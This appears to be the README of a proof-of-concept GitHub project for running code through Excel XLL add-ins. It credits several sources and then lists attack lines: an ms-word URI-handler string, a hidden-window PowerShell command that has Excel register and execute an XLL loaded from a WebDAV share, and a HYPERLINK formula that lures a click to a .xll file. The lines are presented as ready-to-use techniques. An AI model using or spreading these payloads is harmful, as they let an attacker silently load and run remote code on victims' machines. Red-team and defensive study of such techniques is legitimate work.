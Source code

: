 # xllpoc
Code Exec via Excel

<strong>CREDIT</strong><br>
<li>EdParcell: https://github.com/edparcell/HelloWorldXll </li><br>
<li>MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx</li><br> 
<li>Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52</li><br>
<li>Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ</li><br>
<li>Many others</li><br>

<br><br>
<strong>INTERESTING</strong><br>
ms-word:nft|u|http://PATH <br>
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"  <br>
=HYPERLINK("http://127.0.0.1/xll.xll", "CLICK"  <br>

